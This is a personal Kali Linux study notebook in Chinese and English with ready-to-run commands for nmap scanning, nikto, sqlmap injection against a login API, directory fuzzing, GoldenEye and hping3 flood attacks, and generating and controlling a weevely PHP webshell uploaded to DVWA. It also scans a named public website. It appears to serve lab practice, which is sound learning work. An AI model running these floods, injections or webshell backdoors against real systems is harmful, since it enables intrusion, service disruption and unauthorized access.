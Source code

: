 # Kali-one This is a Information-security Learning of Tien-Wei Hsu
https://explainshell.com/
https://www.mediacollege.com/linux/command/linux-command.html

# ping with windows
ping 8.8.8.8 -c 4  

# ping forom windows to kali-linux
wsl ping 8.8.8.8 -c 4

🔹 1. nmap

用途：網路掃描器。

功能：偵測一台電腦或伺服器有哪些「開放的 Port」、執行什麼服務（HTTP、FTP、SSH…）、可能的作業系統。

舉例：

nmap -sV -p 4173 192.168.0.132

直接加 -Pn，告訴 Nmap「不要先 ping，直接掃 port」：
nmap -sV -p 8000 -Pn 192.168.0.132

-sV = 掃描並嘗試判斷服務版本

-p 4173 = 只掃 port 4173（你的網站）
👉 可以幫你確認「4173 port 是不是 Vite / Node.js 在跑」。


nmap --script http-enum -p 8000 -Pn 192.168.0.132
→ 嘗試列舉 Web 服務的路徑。

bash
複製程式碼
nmap --script http-title -p 8000 -Pn 192.168.0.132
→ 看看首頁標題（通常可判斷是不是 Django/FastAPI app）。

🔹 2. nikto

用途：Web 弱點掃描器。

功能：針對網站進行自動化檢查，測試是否有：

預設或錯誤的伺服器設定（比如敏感檔案 /robots.txt、.git/ 洩漏）

舊版本伺服器軟體漏洞

常見的弱點（XSS、目錄遍歷、錯誤訊息洩漏）

舉例：

nikto -h http://192.168.0.132:4173


👉 它會跑一連串測試，給你一份「安全檢查報告」。

➡️ 定位：自動掃描階段 → 快速找到常見問題。

🔹 3. Burp Suite

用途：Web 安全測試工具（算是「駭客的瑞士刀」）。

功能：

當「瀏覽器代理 (Proxy)」→ 可以攔截、修改、重送你的 HTTP 請求。

模擬攻擊 → 試探 SQL Injection、XSS、弱認證等。

暴力測試 → 自動嘗試一堆 payload（像字典攻擊）。

舉例：

開啟 Burp Suite

設定瀏覽器代理到 127.0.0.1:8080

瀏覽 http://192.168.0.132:4173

你發出的每個 request 都會被攔截，你可以改動參數（例如登入密碼）再送出。

➡️ 定位：手動 / 半自動攻擊階段 → 深入分析、嘗試繞過安全檢查。

請注意 如果想使用wsl docker 進行映射, 要注意 kali-linux 內部要用主機ip 而非127.0.0.1


🔹 如何在 Kali 測試

用 curl 發送測試請求

curl -X POST http://192.168.0.132:8000/api/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin"}'


用 Burp Suite / OWASP ZAP

攔截請求

修改 payload

觀察伺服器回應

自動化測試工具

sqlmap：專門測試 SQL Injection

sqlmap -u "http://192.168.0.132:8000/api/login" --data="username=admin&password=123"

-------------------
版本探測 (安全一點的方式)

nmap -sV -p 80,443 www.desmos.com


→ 可以顯示 Web 伺服器的版本（例如 Nginx/Apache/CloudFront）。

SSL/TLS 設定探測

nmap --script ssl-enum-ciphers -p 443 www.desmos.com


→ 可以列出 HTTPS 的加密協議，檢查安全性（例如是否支援 TLS 1.0/1.1）。

如果只是練習，可以對自己控制的伺服器跑更多深入掃描，例如 -A（OS 探測 + 版本 + traceroute + script）。

-------------------

🔹 偵測路徑

dirb 較常使用
dirb http://192.168.0.132:8000


ffuf -u http://192.168.0.132:8000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

ASP.NET 系統常有 .aspx, .asp, .bak, .config：
ffuf -u http://ip:port/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .aspx,.asp,.bak,.config -fc 404

-------------------

🔹 DDOS Test

GoldenEye（HTTP Flood）
python3 goldeneye.py http://192.168.0.132:8000/

hping3（SYN Flood） 洪水型攻擊 但似乎有點沒用
sudo hping3 -S --flood -V -p 8000 192.168.0.132

-------------------

DVWA Agent -> account:admin password:password \n

🔹 文件上傳攻擊 Upload attack

在 Kali Linux 裡，Weevely 是一個常見的 webshell 工具，用來建立後門、遠端控制網站伺服器。

weevely generate <password> <output_file>

在目標文件上傳 shell.php

啟動: weevely http://localhost:8080/hackable/uploads/shell.php 123456

the latest weevely need to fix the import telnetlib, just comment it.

sudo nano /usr/share/weevely/modules/backdoor/tcp.py

control the webshell

weevely http://localhost:8080/hackable/uploads/shell.php 123456


